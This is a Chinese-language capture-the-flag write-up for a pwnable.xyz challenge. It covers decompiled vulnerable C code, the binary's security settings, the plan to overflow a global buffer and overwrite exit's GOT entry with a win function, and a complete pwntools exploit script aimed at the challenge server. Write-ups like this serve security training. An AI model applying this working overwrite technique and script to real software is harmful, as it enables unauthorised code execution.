

有点意思


### 关键代码：

```c
undefined8 main(void)

{
  undefined4 uVar1;
  
  setup();
  puts("PvP - Programmatically vulnerable Program");
  do {
    print_menu();
    uVar1 = read_int32();
    switch(uVar1) {
    case 0:
      return 0;
    case 1:
      if (x._1032_4_ == 0) {
        puts("Message is empty.");
      }
      else {
        short_append();                    // A
      }
      break;
    case 2:
      if (x._1032_4_ == 0) {
        long_append();                     // B
        x._1032_4_ = 1;
      }
      else {
        puts("Message already there.");
      }
      break;
    case 3:
      if (x._1024_8_ != 0) {
        printf("Your msg %s\n",x._1024_8_);
      }
      break;
    case 4:
      save_it();
      break;
    default:
      puts("Invalid");
    }
  } while( true );
}

void save_it(void)

{
  uint uVar1;
  size_t __size;
  
  if (x._1024_8_ == (char *)0x0) {
    __size = strlen(x);
    x._1024_8_ = (char *)malloc(__size);
  }
  printf("How many bytes is your message? ");
  uVar1 = read_int32();
  if (uVar1 < 0x401) {
    strncpy(x._1024_8_,x,(ulong)uVar1);              // C
  }
  else {
    puts("Invalid");
  }
  return;
}

void setup(void)

{
  time_t tVar1;
  
  setvbuf((FILE *)__TMC_END__,(char *)0x0,2,0);
  setvbuf((FILE *)_IO_2_1_stdin_,(char *)0x0,2,0);
  signal(0xe,handler);
  alarm(0x3c);
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  return;
}

void handler(void)

{
                    /* WARNING: Subroutine does not return */
  exit(1);                                         // D
}
```


### 安全参数

```
[*] '/home/noevil/share/pwn/challenge_43/image/challenge/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


### 思路：

- 通过A、B行，往全局变量x里写数据，覆盖到offset为1024处的指针，配合C行，实现任意地址写；
- GOT表可写，可以将某个函数的GOT覆盖为win函数；
- 注意到C行的strncpy函数，它的表现比较不同，它不会往目标地址写入空字符'\0'；而准备写入的win函数地址为0x400b2d（3字节），也就是目标地址原来的值不能大于3字节；

​		也就是说，如果原来的值是0x00007f6aa930f5f0，调用strncpy写入会得到0x00007f6aa9400b2d，只有低3字节正确；

​		结合延时绑定的特点，劫持的GOT应该是某个没有被调用过的函数，下断点看看：



发现几个满足条件的函数，如 strlen、__stack_chk_fail、system、malloc、exit，逐个排查，发现只有exit满足要求，D行被调用。


### 脚本

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
e = ELF('./challenge')


p = remote('svc.pwnable.xyz', 30022)
# p = process('./challenge')


win_addr = e.symbols['win']
strcat_addr = e.got['exit']
print('win address', hex(win_addr))
print('strcat address', hex(strcat_addr))


payload = p64(win_addr).rstrip(b'\x00')
payload = payload.ljust(1024, b'a') + p64(strcat_addr)


p.sendafter(b'> ', b'2')
bytes_n = p.recvuntil(b' chars: ')[8:-8]
bytes_n = int(bytes_n.decode('utf-8'))
p.send(payload[0:bytes_n])
print('long append:', bytes_n)


payload_n = len(payload)
while bytes_n < payload_n:
    p.sendafter(b'> ', b'1')
    n = p.recvuntil(b' chars: ')[8:-8]
    n = int(n.decode('utf-8'))
    if bytes_n + n > payload_n:
        n = payload_n - bytes_n
    # print('short append:', n)
    p.send(payload[bytes_n:bytes_n+n])
    bytes_n += n


p.sendafter(b'> ', b'4')
p.sendafter(b'? ', b'3')


# 等一段时间
p.interactive()

```

